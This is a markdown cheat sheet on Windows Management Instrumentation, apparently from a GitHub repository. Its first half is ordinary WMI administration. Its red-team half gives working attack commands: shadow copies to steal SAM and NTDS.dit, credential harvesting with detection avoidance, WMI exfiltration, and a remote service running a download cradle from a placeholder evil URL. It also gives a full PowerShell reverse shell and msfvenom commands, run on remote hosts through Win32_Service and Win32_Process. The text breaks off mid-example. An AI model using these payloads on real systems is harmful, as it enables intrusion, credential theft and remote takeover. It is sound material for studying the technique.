

Windows Management Instrumentation (WMI) is Microsoft's implementation of Common Information Model (CIM) and Web-Based Enterprise Management (WBEM). WMI provides a unique interface for applications/scripts to manage a local or remote network or computer.

WMI can be used for Red/Blue Teaming because:

- it is enabled on all Windows systems by default;
- it really mixes well with existing network traffic;
- it provides execution and persistence with SYSTEM privileges;
- it is often neglected by defenders.

By default, the WMI service – Winmgmt is running and listening on port 135. DCOM connections are established on port 135, while subsequent data exchanged on port dictated by `HKEY_LOCAL_MACHINE\Software\Microsoft\Rpc\Internet – Ports (REG_MULTI_SZ)` configurable via `DCOMCNFG.exe`.

## WMI Basics



### WMI Components

| Component | Description |
| ----- | ----- |
| Managed Objects | Component being managed by WMI (e.g. process, service, operating system). |
| Managed Objects Format (MOF) files | Used to define WMI namespaces, classes, providers, etc. |
| Classes | Represent items in WMI (e.g. process, hardware, service)  |
| Repository | The database used to store the static data (definitions) of classes. |
| Namespaces | Created by providers, they are used to divide classes logically (e.g. root\cimv2, root\default, root\security). |
| Providers | Just like a driver, works as a bridge between a managed object and WMI. They generally exist for every MOF file. |
| Consumers | Applications or scripts which can be used to interact with WMI classes (e.g. powershell, wmic). |

 
### Exploring commands

#### WMI Commands - PowerShell v2

```powershell
Get-Command -CommandType Cmdlet *wmi* | select name

Get-WmiObject
Invoke-WmiMethod
Register-WmiEvent
Remove-WmiObject
Set-WmiInstance
```

#### CIM Commands - PowerShell v3

CIM commands use WS-MAN so they can be used also against boxes where WMI is blocked but WS-MAN (WinRM) is enabled (even if the target has PowerShell version 2). They can be used also against non-Windows boxes.

```powershell
Get-Command -CommandType Cmdlet *cim* | select name

Get-CimAssociatedInstance
Get-CimClass
Get-CimInstance
Get-CimSession
Invoke-CimMethod
New-CimInstance
New-CimSession
New-CimSessionOption
Register-CimIndicationEvent
Remove-CimInstance
Remove-CimSession
Set-CimInstance
```

#### WMI and CIM commands relations

| WMI | CIM |
| ------ | ------ |
| Get-WmiObject | Get-CmiInstance |
| Get-WmiObject -List | Get-CmiClass |
| Invoke-WmiMethod | Invoke-CimMethod |
| Register-WmiEvent | Register-CimIndicationEvent |
| Remove-WmiObject | Remove-CimInstance |
| Set-WmiInstance | Set-CimInstance |

### Exploring namespaces within root namespace

```powershell
Get-WmiObject -Namespace "root" -Class "__Namespace"
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
Get-CimInstance -Namespace "root" -Class "__Namespace" | select name

# Recursively list nested namespaces
Get-WmiNamespace.ps1
```

### Exploring classes and objects

Once we have a namespace, we can explore its classes. Classes represent items in WMI like process, hardware, service, etc.

#### Get classes

If not specified, root/cim2 is the default namespace. Use `-List` parameter for `Get-WmiObject`.

```powershell
Get-WmiObject -Namespace root\cimv2 -Class *bios* -List
Get-WmiObject -Class *bios* -List

Get-CimClass -Namespace root\cimv2 -Class *bios*
Get-CimClass -Class *bios*
Get-CimClass -QualifierName dynamic
```

#### Get instances of a class (objects)

```powershell
Get-WmiObject -Class Win32_BIOS 

Get-CimInstance -ClassName Win32_BIOS
```

#### Filtering objects

```powershell
Get-WmiObject -Class Win32_Process -Filter "Name = 'explorer.exe'"
Get-CimInstance -ClassName Win32_Process -Filter "Name = 'explorer.exe'" | fl *

Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "explorer.exe"}
Get-CimInstance -ClassName Win32_Process | Where-Object {$_.Name -eq "explorer.exe"}

Get-WmiObject -Query "select * from Win32_Process where Name = 'explorer.exe'"
Get-CimInstance -Query "select * from Win32_Process where Name = 'explorer.exe'"
```

### Example of WMI usage

Get computer name, domain and local groups:

```powershell
# Explore namespaces to find the correct one
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
Get-CimClass -Namespace "root/cimv2"

# Computer name and domain
Get-CimInstance -Namespace "root/cimv2" -ClassName Win32_ComputerSystem | Format-List -Property *

# Local groups
Get-CimInstance -Namespace "root/cimv2" -ClassName Win32_Group | Format-List -Property *
```

List installed software:

```powershell
Get-CimClass -Namespace "root/cimv2"
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_Product | Format-List -Property *
```

Get installed antivirus:

```powershell
Get-CimClass -Namespace "root/SecurityCenter2"
Get-CimInstance -namespace "root/SecurityCenter2" -ClassName AntiVirusProduct | Format-List -Property *
```

List files and folders:

```powershell
Get-CimClass -Namespace "root/cimv2"
# Files
Get-CimInstance -namespace "root/cimv2" -ClassName CIM_DataFile | Format-List -Property *
# Shared folders
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_Share | Format-List -Property *
# Local folders
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_Directory | Format-List -Property *
```

Get security logs:

```powershell
Get-CimClass -Namespace "root/cimv2"
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_NTEventLogFile | Format-List -Property *
```

Get networking configuration:

```powershell
Get-CimClass -Namespace "root/cimv2"
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_NetworkAdapter | Format-List -Property *
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_NetworkAdapterConfiguration | Format-List -Property *
```

List services:

```powershell
Get-CimClass -Namespace "root/cimv2"
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_Service
```

List scheduled tasks:

```powershell
Get-CimClass -Namespace "root/cimv2"
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_ScheduledJob
```

List installed patches:

```powershell
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
Get-CimClass -Namespace "root/cimv2"
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_QuickFixEngineering | Format-List -Property *
```

List processes:

```powershell
Get-CimClass -Namespace "root/cimv2"
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_Process | Format-List -Property *
Get-CimInstance -namespace "root/cimv2" -ClassName Win32_ProcessStartup | Format-List -Property *
```

### Interacting with WMI objects

#### Removing objects

```powershell
Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "notepad.exe"} | Remove-WmiObject
Get-CimInstance -ClassName Win32_Process | Where-Object {$_.Name -eq "notepad.exe"} | Remove-CimInstance
```

#### List class methods

```powershell
Get-WmiObject -Class Win32_Process -List | select -ExpandProperty Methods
Get-CimClass -ClassName Win32_Process | select -ExpandProperty CimClassMethods
Get-CimClass -ClassName Win32_Process | select -ExpandProperty CimClassMethods | where name -eq "Create" | select -ExpandProperty Parameters

# Get owner for each active process
(Get-CimInstance -ClassName win32_process) | ForEach-Object {$output = Invoke-CimMethod -InputObject $_ -Name getowner; Write-Host "PROCESS: "$_.name" - OWNER: "$output.user}
```

#### List classes which contains methods

```powershell
Get-WmiObject -Class * -List | where-object {$_.Methods}
Get-CimClass -MethodName * 
Get-CimClass -MethodName *create* 

# List all methods create in all namespaces namespaces
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name | ForEach-Object {$name = $_.name; Get-CimClass -Namespace "root/$name" -MethodName create}
```

#### Invoke class methods

```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList @(calc.exe)
Invoke-CimMethod -ClassName Win32_Process -Name Create -Arguments  @{CommandLine = "calc.exe"}
```

#### Update properties of a WMI Object

```powershell
Get-WmiObject -Class Win32_Process -Filter "Name = 'notepad.exe'" | Set-WmiInstance -Arguments @{Comment = "Notepad test"}
Get-CimInstance -Class Win32_Process -Filter "Name = 'notepad.exe'" | Set-CimInstance -Arguments @{Comment = "Notepad test"}
```

### WMI Associations

There are relations between WMI classes which can be used to retrieve information about a managed object which is not available from a single class.
The following command:

```powershell
Get-WmiObject -Query "Associators of {Win32_NetworkAdapter.DeviceID=11}" 
Get-CimAssociatedInstance -InputObject (Get-CimInstance -ClassName Win32_NetworkAdapter -Filter 'DeviceId = 11')
```
gives much more information about the object than the simple command:

```powershell
Get-WmiObject -Class Win32_NetworkAdapter -Filter 'DeviceId = 11'
Get-CimInstance -ClassName Win32_NetworkAdapter -Filter 'DeviceId = 11'
```
in fact the first one also gives instances related to all the associated classes.

The **Associators of** statement retrieves all instances that are associated with a particular source instance. The instances that are retrieved are referred to as the endpoints. Each endpoint is returned as many times as there are associations between it and the source object.

Get all association types relative to a particular class:

```powershell
Get-WmiObject -Query "References of {Win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly"
```

Get all association types:

```powershell
Get-CimClass -ClassName * -Qualifier "Association"
Get-CimClass -ClassName *binding* -Qualifier "Association"
```

The **References of** statement retrieves all association instances that refer to a particular source instance. The "References of" statement is similar to the "Associators of" statement in its syntax. However, rather than retrieving endpoint instances, it retrieves the intervening association instances.

Retrieve only instances associated with an association type (returned by the previous command):

```powershell
Get-WmiObject -Query "Associators of {Win32_NetworkAdapter.DeviceID=11} Where AssocClass=Win32_SystemDevices"
Get-CimAssociatedInstance -InputObject (Get-CimInstance -ClassName Win32_NetworkAdapter -Filter 'DeviceId = 11') -Associations Win32_SystemDevices
```
Retrieve only instances associated with an associated class type:

```powershell
Get-WmiObject -Query "References of {Win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly"
Get-WmiObject -Query "Associators of {Win32_NetworkAdapter.DeviceID=11} Where ResultClass=Win32_NetworkAdapterConfiguration"

Get-WmiObject -Query "References of {Win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly"
Get-CimAssociatedInstance -InputObject (Get-CimInstance -ClassName Win32_NetworkAdapter -Filter 'DeviceId = 11') -ResultClass Win32_NetworkAdapterConfiguration
```

List process owners:

```powershell
Get-CimInstance -Namespace "root/cimv2" -ClassName Win32_Process
Get-WmiObject -Query "Associators of {Win32_Process=13920} Where ClassDefsOnly"
Get-WmiObject -Query "Associators of {Win32_Process=13920} Where ResultClass=Win32_LogonSession"
Get-WmiObject -Query "Associators of {Win32_LogonSession=720560} Where ClassDefsOnly"
Get-WmiObject -Query "Associators of {Win32_LogonSession=720560} where ResultClass=Win32_Account"
```
which can be also rewritten as:

```powershell
$PROCESS_ID = 13920 # PROCESS ID (PID)
$QUERY_1 = "Associators of {Win32_Process=" + $PROCESS_ID + "} Where ResultClass=Win32_LogonSession"
$LOGON_ID = (Get-WmiObject -Query $QUERY_1).LogonId
$QUERY_2 = "Associators of {Win32_LogonSession=" + $LOGON_ID + "} where ResultClass=Win32_Account"
(Get-WmiObject -Query $QUERY_2).Name
```

List owners of all the files on the desktop:

```powershell
Get-CimInstance -Query "Associators Of {Win32_Directory.Name='C:\users\pecoraro\desktop'} Where ResultClass = CIM_DataFile" | foreach-object {Write-Host -BackgroundColor Red "FILENAME: "$_.Name; $QUERY = "Associators of {Win32_LogicalFileSecuritySetting.Path='" + $_.Name + "'} Where ResultClass=Win32_SID"; Get-CimInstance -Query $QUERY}
```

### WMI on Remote Computers

WMI can also be executed on remote computers, but it requires admin privileges on the remote machine.
WMI uses DCOM on port 135 (Winmgmt service) and it is not firewall and NAT friendly. Data exchange is performed on dynamic ports which can be configured in registry. CIM cmdlets through CIM sessions are able to use both DCOM port 135 and WinRM/WSMan ports 5585-5586, which are firewall and NAT friendly.

```powershell
# WMI
Get-WmiObject -Class Win32_BIOS -ComputerName "COMPUTER01" -Credential "CYBERLAB\STUDENT01"

# CIM
$session = New-CimSession -ComputerName "COMPUTER01" -Credential "CYBERLAB\STUDENT01"
Get-CimInstance -CimSession $session -ClassName Win32_BIOS

# Force CIM to use DCOM in place of WSMAN
$sessionoption = New-CimSessionOption -Protocol DCOM
$session = New-CimSession -ComputerName "COMPUTER01" -SessionOption $sessionoption -Credential "CYBERLAB\STUDENT01"
```

### Windows Registry with WMI

```powershell
Get-WmiObject -Namespace "root\default" -Class StdRegProv -List | select -ExpandProperty Methods
```

Constants required to access Registry Hives:

| Registry Hive | Constant |
| --- | --- |
| $HIVE_HKROOT | 2147483648 |
| $HIVE_HKCU | 2147483649 |
| $HIVE_HKLM | 2147483650 |
| $HIVE_HKU | 2147483651 |

Value data types:

| Data Type | Constant |
| --- | --- |
| $REG_SZ | 1 |
| $REG_EXPAND_SZ | 2 |
| $REG_BINARY | 3 |
| $REG_DWORD | 4 |
| $REG_MULTI_SZ | 7 |
| $REG_QWORD | 11 |

Retreive Internet Explorer typed URLs (`HKCU:\software\microsoft\internet explorer\typedurls`):

```powershell
Invoke-WmiMethod -Namespace "root\default" -Class StdRegProv -Name EnumKey -ArgumentList @(2147483649, "software\microsoft\internet explorer") | select -ExpandProperty sNames
Invoke-WmiMethod -Namespace "root\default" -Class StdRegProv -Name EnumValues -ArgumentList @(2147483649, "software\microsoft\internet explorer\typedurls") | select -ExpandProperty sNames
Invoke-WmiMethod -Namespace "root\default" -Class StdRegProv -Name GetStringValue -ArgumentList  @(2147483649, "software\microsoft\internet explorer\typedurls", "url1") | select -ExpandProperty sValue
```

It can also be made simpler by using a variable (in particular for remote computers):

```powershell
$regProv = Get-WmiObject -Namespace "root\default" -Class StdRegProv -ComputerName "CYBERLAB\COMPUTER01" -List 
$regProv.Methods | select name
# Name
# ----
# CreateKey
# DeleteKey
# EnumKey
# EnumValues
# DeleteValue
# SetDWORDValue
# SetQWORDValue
# GetDWORDValue
# GetQWORDValue
# SetStringValue
# GetStringValue
# SetMultiStringValue
# GetMultiStringValue
# SetExpandedStringValue
# GetExpandedStringValue
# SetBinaryValue
# GetBinaryValue
# CheckAccess
# SetSecurityDescriptor
# GetSecurityDescriptor

$regProv.getStringValue(2147483649, "software\microsoft\internet explorer\typedurls", "url1") | select -ExpandProperty sValue
```

List autorun programs (`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`):

```powershell
# Get WMI registry object
$regProv = Get-WmiObject -Namespace "root\default" -Class StdRegProv -List

# List available methods
$regProv.methods | select name

# List keys in Software\Microsoft\Windows\CurrentVersion
$regProv.EnumKey(2147483649, "Software\Microsoft\Windows\CurrentVersion") | select -ExpandProperty sNames
# Run
# RunOnce

# List all values of the selected key
$regProv.EnumValues(2147483649, "Software\Microsoft\Windows\CurrentVersion\Run") | select -ExpandProperty sNames
# OneDrive
# CCleaner Smart Cleaning
# NordVPN

# Get string value among all values of the selected key
$regProv.getStringValue(2147483649, "Software\Microsoft\Windows\CurrentVersion\Run", "OneDrive")
$regProv.getStringValue(2147483649, "Software\Microsoft\Windows\CurrentVersion\Run", "OneDrive") | select -ExpandProperty sValue
```

List installed applications:

```powershell
$regProv = Get-WmiObject -Namespace "root\default" -Class StdRegProv -List

$regProv.EnumKey(2147483649, "Software\Microsoft\Windows\CurrentVersion") | select -ExpandProperty sNames

$regProv.EnumKey(2147483649, "Software\Microsoft\Windows\CurrentVersion\Uninstall") | select -ExpandProperty sNames
# ActiveTouchMeetingClient
# Discord
# Fiddler2
# OneDriveSetup.exe
# Pulse_Setup_Client
# Pulse_Term_Services

$regProv.EnumValues(2147483649, "Software\Microsoft\Windows\CurrentVersion\Uninstall\OneDriveSetup.exe") | select -ExpandProperty sNames
# DisplayName
# DisplayIcon
# DisplayVersion
# HelpLink
# Publisher
# UninstallString
# UrlUpdateInfo
# EstimatedSize
# NoRepair
# NoModify

$regProv.getStringValue(2147483649, "Software\Microsoft\Windows\CurrentVersion\Uninstall\OneDriveSetup.exe", "DisplayName") | select -ExpandProperty sValue
# Microsoft OneDrive
```

List WMI installation directory:

```powershell
$regProv = Get-WmiObject -Namespace "root\default" -Class StdRegProv -List 
$regProv.getStringValue(2147483650, "software\microsoft\wbem", "Installation Directory") | select -ExpandProperty sValue
```

Edit regitry to turn off Network Level Authentication (NLA):

```powershell
$regProv = Get-WmiObject -Namespace "root\default" -Class StdRegProv -List 
$regProv.EnumValues(2147483650,"SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp") | select -ExpandProperty sNames

# Check NLA enabling status
$regProv.GetDWORDValue(2147483650, "SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp", "UserAuthentication") | select -ExpandProperty uValue
# 0 --> NLA disabled
# 1 --> NLA enabled

# Enable NLA
$regProv.SetDWORDValue(2147483650, "SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp", "UserAuthentication", 0)

# Check NLA enabling status
$regProv.GetDWORDValue(2147483650, "SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp", "UserAuthentication") | select -ExpandProperty uValue
```


## WMI for Red Teams

### Information Gathering

These commands for information gathering can be executed both on a local or remote box:

```powershell
# List routes
Get-WmiObject -Class Win32_IP4RouteTable
Get-CimInstance -ClassName Win32_IP4RouteTable

# List users (it provides also domain users and bidirectional trusted domain users)
Get-WmiObject -Class Win32_UserAccount
Get-CimInstance -ClassName Win32_UserAccount

# List groups
Get-WmiObject -Class Win32_Group
Get-CimInstance -ClassName Win32_Group

# Create a shadow copy
# Shadow Copy is a technology included in Microsoft Windows that can create backup copies or snapshots of computer files or volumes even when they are in use. It can be useful to steal data from SAM, SYSTEM or NTDS.dit files in particular from remote boxes.
# List existing shadow copies
Get-WmiObject -Class Win32_ShadowCopy
# Use class method to create a shadow copy of "C:\"
(Get-WmiObject -Class Win32_ShadowCopy -List).create("C:\", "ClientAccessible")
# Create a link to the shadow copy
$link = (Get-WmiObject -Class Win32_ShadowCopy).DeviceObject + "\"
cmd /c mklink /d C:\shadowcopy "$link"
```

`Invoke-SessionGopher.ps1` is a useful tool to extract information from registry on local or remote (requires admin privs) about RDP, Putty sessions and WinSCP passwords. It is part of  `Nishang`: 

```powershell
# Nishang
. .\nishang\Gather\Invoke-SessionGopher.ps1

# Gather information from the local box
Invoke-SessionGopher -Verbose

# Gather information from a remote box
Invoke-SessionGopher -Verbose -ComputerName "CYBERLAB\COMPUTER01" -Credential "CYBERLAB\STUDENT01"

# Gather information from all domain machines
Invoke-SessionGopher -Verbose -AllDomain -Credential "CYBERLAB\STUDENT01"

# Gather information from all domain machines excluding DC to avoid detection
Invoke-SessionGopher -Verbose -AllDomain -Credential "CYBERLAB\STUDENT01" -ExcludeDC

# Explore filesystem to look for Putty private key files (.ppk), RDP connection files (.rdp) and RSA files (.stdid)
Invoke-SessionGopher -Thorough
```

### Active Directory Enumeration

The following commands must be ran from a domain-joined box:

```powershell
# Classes prefixed with ads_ are abstract, while ds_ are dynamic
Get-WmiObject -Namespace root\directory\ldap -List
Get-CimClass -Namespace root\directory\ldap

# Get the current domain
Get-WmiObject -Namespace root\directory\ldap -Class ds_domain | select -ExpandProperty ds_dc
(Get-WmiObject -Class Win32_ComputerSystem).Domain

# Get domain trusts
Get-WmiObject -Namespace root\directory\ldap -Class ds_trusteddomain | select ds_cn

# Get domain password policy
Get-WmiObject -Namespace root\directory\ldap -Class ds_domain | select DS_lockoutDuration,DS_lockoutObservationWindow,DS_lockoutThreshold,DS_maxPwdAge,DS_minPwdAge,DS_minPwdLength,DS_pwdHistoryLength,DS_pwdProperties

# Get the domain controller
# 532480 is the User Account Control value for the domain controller
Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | Where-Object {$_.ds_userAccountControl -eq 532480} | select ds_cn
# Get all properties removing empty values
(Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | Where-Object {$_.ds_userAccountControl -eq 532480}).Properties | Foreach-Object {if ($_.value -AND $_.name -NOTMATCH "__"){@{ $($_.name) = $($_.value)}}}

# Get all domain users
Get-WmiObject -Class Win32_UserAccount
Get-WmiObject -Class Win32_UserAccount | select name
# Get details of a particular user
Get-WmiObject -Class Win32_UserAccount | Where-Object {$_.name -match "STUDENT1"}
# Get all user of a trusted domain
Get-WmiObject -Class Win32_UserAccount -Filter "Domain = 'CYBERSCHOOL'" | select name

# Get all domain and local groups
Get-WmiObject -Class Win32_Group
# Get all domain groups
Get-WmiObject -Class Win32_GroupInDomain | ForEach-Object {[wmi]$_.PartComponent}
# Get all groups of a trusted domain
Get-WmiObject -Class Win32_GroupInDomain | Where-Object {$_.GroupComponent -match "CYBERSCHOOL"} | ForEach-Object {[wmi]$_.PartComponent}

# Get members of domain admin group for the current and trusted domains
Get-WmiObject -Class Win32_GroupUser | Where-Object {$_.GroupComponent -match "Domain Admins"} | ForEach-Object {[wmi]$_.PartComponent}
# Get members of domain admin group for a trusted domain
Get-WmiObject -Class Win32_GroupUser | Where-Object {$_.GroupComponent -match "Domain Admins" -and $_.GroupComponent -match "CYBERSCHOOL"} | ForEach-Object {[wmi]$_.PartComponent}

# Get group membership for a particular user
Get-WmiObject -Class Win32_GroupUser | Where-Object {$_.PartComponent -match "STUDENT01"} | ForEach-Object {[wmi]$_.GroupComponent}

# Get all domain computers
Get-WmiObject -Namespace root\directory\ldap -Class ds_computer 
Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | select -ExpandProperty ds_cn
# Get all non-empty properties for a computer
(Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | Where-Object {$_.ds_cn -eq "COMPUTER01"}).Properties | Foreach-Object {if ($_.value -AND $_.name -NOTMATCH "__"){@{ $($_.name) = $($_.value)}}}
# List computers with a particular operating system
Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | Where-Object {$_.DS_operatingSystem -match "Windows 10"} | select ds_cn 
(Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | Where-Object {$_.DS_operatingSystem -match "Windows 10"}).Properties | Foreach-Object {if ($_.value -AND $_.name -NOTMATCH "__"){@{ $($_.name) = $($_.value)}}}


# Check local admin access on remote computers
$COMPUTERS = Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | select -ExpandProperty ds_cn
foreach ($computer in $COMPUTERS) {
	Try
	{
		$data = Get-WmiObject -Class Win32_ComputerSystem -ComputerName $computer -ErrorAction Stop
		Write-Host $computer,": " -NoNewline; Write-Host "OK" -ForegroundColor Green
	}
	Catch
	{
		Write-Host $computer,": " -NoNewline; Write-Host "NOK" -ForegroundColor Red
	}
}
```
It is not possible to perform User Hunting through WMI.

### Lateral Movement - WMI as storage and communication channel

Using WMI as a communication channel:

```powershell
# Send-InfoWMI.ps1
# Send data/files from a compromised machine (needs local admin rights)
. .\Send-InfoWMI.ps1
Send-InfoWMI -FileToSend "c:\data.txt" -ComputerName "COMPUTER01" -Username "Administrator"
Send-InfoWMI -DataToSend (Get-Process) -ComputerName "COMPUTER01" -Username "Administrator"

# Get-InfoWMI.ps1
# Receive data/files on the local machine
. .\Get-InfoWMI.ps1
Get-InfoWMI
Get-InfoWMI -OutputFile "c:\data.txt"
```

### Lateral Movement - Command Execution - Win32_Service

It is possible to create a service on a remote machine using WMI to execute commands and scripts. This also allows persistence capabilities, but it is more noisy than simply starting a process.

Create a service
```powershell
$ServiceType = [byte] 16
$ErrorControl = [byte] 1
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $False,"Windows Performance",$ErrorControl,$null,$null,"WinPerf","c:\Windows\System32\calc.exe",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM",""
```

| Argument | Description |
| --- | --- |
| $False | DesktopInteract |
| "Windows Performance" | DisplayName |
| $ErrorControl | User is notified |
| $null | LoadOrderGroup |
| $null | LoadOrderGroupDependencies |
| "WinPerf" | Name |
| "c:\Windows\System32\calc.exe" | PathName |
| $null | ServiceDependencies |
| $ServiceType | OwnProcess |
| "Manual" | StartMode |
| "NT AUTHORITY\SYSTEM" | StartName |
| "" | StartPassword |

Check if the service has been correctly created:

```powershell
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"'
```

Start the service:

```powershell
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService
```

Remove the service:

```powershell
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Remove-WmiObject
```

Abuse service creation on a remote box:

```powershell
$ServiceType = [byte] 16
$ErrorControl = [byte] 1
# Encoded command
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $False,"Windows Performance",$ErrorControl,$null,$null,"WinPerf","c:\Windows\System32\cmd.exe /c powershell -e <Base64EncodedScript>",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName "COMPUTER01" -Credential "CYBERLAB\STUDENTI01"
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService

# Download cradle
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $False,"Windows Performance",$ErrorControl,$null,$null,"WinPerf","c:\Windows\System32\cmd.exe /c powershell iex (New-Object Net.WebClient).DownloadString('http://evil.ps1')",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName "COMPUTER01" -Credential "CYBERLAB\STUDENTI01"
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService
```

Get a reverse shell using [Win32_Service](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-service):

```powershell
# On the local machine it is necessary to open a listener using powercat
. .\powercat.ps1
powercat -l -v -p 8080 -t 10000

# Delete the remote service (if it exists)
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator" | Invoke-WmiMethod -Name Delete

# Create the base64-encoded reverse shell (command to be executed with powershell -e $EncodedShell)
$ip = "10.10.10.2"
$port = 8080
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("' + $ip + '",' + $port + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$EncodedShell =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))

# You can also use msfvenom to generate the base64-encoded reverse shell
msfvenom –payload windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=8080 –format psh –smallest | msfvenom –payload – –platform win –arch x86 –encoder base64 NOEXIT SYSWOW64

# Start the service
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $False,"Windows Performance",$ErrorControl,$null,$null,"WinPerf","c:\Windows\System32\cmd.exe /c powershell -e $EncodedShell",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator"
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator" | Invoke-WmiMethod -Name StartService
```

Get a reverse shell using [Win32_Process](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-process):

```powershell
# On the local machine it is necessary to open a listener using powercat
. .\powercat.ps1
powercat -l -v -p 8080 -t 10000

# Create the base64-encoded reverse shell (command to be executed with powershell -e $EncodedShell)
$ip = "10.10.10.2"
$port = 8080
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("' + $ip + '",' + $port + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$EncodedShell =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))

# You can also use msfvenom to generate the base64-encoded reverse shell
msfvenom –payload windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=8080 –format psh –smallest | msfvenom –payload – –platform win –arch x86 –encoder base64 NOEXIT SYSWOW64

# Execute the process
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "c:\Windows\System32\cmd.exe /c powershell -e $EncodedShell" -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator"
```

Get a reverse shell using [Win32_ScheduledJob](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/create-method-in-class-win32-scheduledjob):

```powershell
# On the local machine it is necessary to open a listener using powercat
. .\powercat.ps1
powercat -l -v -p 8080 -t 10000

# Create the base64-encoded reverse shell (command to be executed with powershell -e $EncodedShell)
$ip = "10.10.10.2"
$port = 8080
